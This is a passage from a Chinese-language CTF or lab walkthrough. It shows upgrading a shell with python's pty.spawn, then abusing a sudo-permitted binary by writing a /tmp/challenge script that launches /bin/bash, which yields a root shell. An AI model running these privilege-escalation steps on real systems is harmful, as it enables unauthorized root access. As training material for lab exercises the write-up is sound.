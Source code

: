 同样用 python 提升一下交互性:

```bash
dpkg -l | grep python
python -c "import pty;pty.spawn('/bin/bash')"
```

用 `sudo -l` 查看一下, 发现可以用 root 权限无密码执行一个文件, 执行如下:

![24.png](24.png)

提示要在 victor 面前打败他, 并且报错没有找到 `/tmp/challenge` 文件, 那应该是一个简单的猜谜环节, 估计是要新建这个文件。

>   `>` 为覆写, `>>` 为追加。

```bash
cd /tmp
echo '#!/bin/bash' > challenge
echo '/bin/bash' >> challenge
chmod +x challenge
sudo /home/victor/undefeated_victor
```

---

![25.png](25.png)

